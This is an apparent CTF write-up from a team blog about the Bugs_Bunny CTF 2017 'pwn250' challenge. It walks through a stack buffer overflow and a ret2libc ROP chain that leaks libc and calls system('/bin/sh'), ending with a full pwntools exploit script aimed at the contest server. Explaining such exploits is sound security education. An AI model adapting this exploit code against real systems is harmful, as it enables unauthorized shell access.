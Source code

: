 ```yaml
---
layout: post
title:  "Bugs_Bunny CTF 2017 - pwn250"
date:   2017-07-31 5:00
categories: [BugsBunnyCTF2017]
tags: [Pwn]
author: jbz
---
```



This was a pretty standard, stack-based overflow. You can download the file [here](https://github.com/jbzteam/CTF/raw/master/BugsBunnyCTF2017/pwn250/pwn250).

Through `file` and `checksec` we see that it's a 64-bit ELF non-stripped binary, dynamically linked, compiled with only the `NX` mitigation:
```bash
$ file ./pwn250 
./pwn250: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b92b9ef9aa21452b83be93778ed175c6c37de92d, not stripped
$ checksec ./pwn250 
[*] './pwn250'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

If we open the binary with IDA, we see from the pseudocode that it's a quite simple binary:
```c
int main(int argc, const char **argv, const char **envp)
{
  here();
  write(1, "Hello, World\n", 13);
  return 0;
}
ssize_t here()
{
  char buf[128];

  return read(0, buf, 256);
}
```

The vulnerability is clear: there is a `read` call that reads 256 bytes from standard input and writes them in a variable that can contain 128 bytes.

There is NX so we cannot inject and execute shellcode directly. Our strategy then is to create a small ROP chain to call `system` and execute a shell.

First we need to gather the address of `system` from `libc`, and find an address that points to `/bin/sh`. Since the binary is not PIE, we can use one of the functions imported from libc to leak their address. Our target is `read`.

In order to do this we can use the `write` to print the address of `read`. The organizers were kind enough to leave a function called `foryou` with a great gadget:
```asm
.text:0000000000400566 foryou          proc near
.text:0000000000400566                 push    rbp
.text:0000000000400567                 mov     rbp, rsp
.text:000000000040056A                 pop     rdi
.text:000000000040056B                 pop     rsi
.text:000000000040056C                 pop     rdx
.text:000000000040056D                 retn
```

We can use this gadget to prepare the registers before the call to `write`. Our payload/ROP chain to leak the address of `read` looks like this:
```python
payload = ""
payload += "A" * 128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
```

One thing to keep in mind: we include the `mov rbp, rsp` in the ROP chain because if `rbp` contains an invalid address, the subsequent `leave` would fail and the program would crash. With the `mov` we make sure that `rbp` points to a valid address.

After using the gadget to populate the registers, we call `write` and when it returns we go back to the function `here` where we can send our second payload to get the shell.

Once we get the address of `read`, we can calculate the base address for `libc` (which was provided), and consequently the address of `system` and of the string `/bin/sh` in the binary.

Our second payload looks like this:
```python
payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)

```

This second payload first pops the address of `/bin/sh` into `rdi` and then executes `system`.

The full exploit code is below. Sorry guys, I forgot to save the flag :P
```python
from pwn import *

local = 0
if local:
    p = process("./pwn250")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p = remote("54.153.19.139", 5255)
    libc = ELF("./libc.so")

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi - standard output
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
p.sendline(payload)

leak_addr = u64(p.recv(8))
libc_base_addr = leak_addr - libc.symbols['read']
system_address = libc_base_addr + libc.symbols['system']
sh_address = libc_base_addr + next(libc.search("/bin/sh\x00"))
log.info("libc_base_addr @ {:08x}".format(libc_base_addr))

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)
p.sendline(payload)

p.sendline("uname -a && id")
p.interactive()

```